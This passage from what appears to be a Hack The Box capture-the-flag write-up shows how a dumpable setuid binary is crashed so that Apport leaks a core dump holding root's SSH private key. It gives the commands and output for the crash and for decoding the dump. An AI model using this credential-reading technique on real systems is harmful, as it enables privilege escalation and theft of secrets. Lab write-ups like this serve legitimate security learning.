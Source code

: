 I tried several different tricks to leverage that file read into something I could access as the unprivileged user. However, `gdb`, `strace`, and even `/proc/$pid/fd/*` don't allow it. I considered a buffer overflow but doubted it would be the vector for an Easy-rated HTB target. After looking more closely at the C code, I realized that this line allows the unprivileged user to read a core dump:

```text
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
```

`kernel.core_pattern` is configured to send core dumps to [Apport](https://wiki.ubuntu.com/Apport):

```console
dasith@secret:~$ sysctl kernel.core_pattern
kernel.core_pattern = |/usr/share/apport/apport %p %s %c %d %P %E
```

I made sure that `ulimit` is set correctly:

```console
dasith@secret:~$ ulimit -c
0
dasith@secret:~$ ulimit -c unlimited  # This may be unnecessary with Apport.
dasith@secret:~$ ulimit -c
unlimited
```

Then I ran `count` on `/root/.ssh/id_rsa` and at the "Save results…" prompt I ran `kill -SEGV $pid` from another shell. It worked:

```console
dasith@secret:~$ ls -l /var/crash
total 32
-rw-r----- 1 dasith dasith 31507 Apr 17 22:53 _opt_count.1000.crash
dasith@secret:~$ file /var/crash/_opt_count.1000.crash
/var/crash/_opt_count.1000.crash: ASCII text, with very long lines
dasith@secret:~$ head /var/crash/_opt_count.1000.crash
ProblemType: Crash
Architecture: amd64
Date: Thu Apr 17 22:53:20 2025
DistroRelease: Ubuntu 20.04
ExecutablePath: /opt/count
ExecutableTimestamp: 1633601037
ProcCmdline: /opt/count
ProcCwd: /
ProcEnviron:
 SHELL=/bin/bash
```

Within that crash file are two uuencoded lines. I used Vim to isolate them and clean them up (removed spaces). Then I decoded and saved the data into a file, which is a `gzip`'d core dump:

```console
$ cat line1 line2 | base64 -d > core.gz

$ gunzip core.gz

$ file core
core: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from '/opt/count', real uid: 1000, effective uid: 0, real gid: 1000, effective gid: 1000, execfn: '/opt/count', platform: 'x86_64'
```
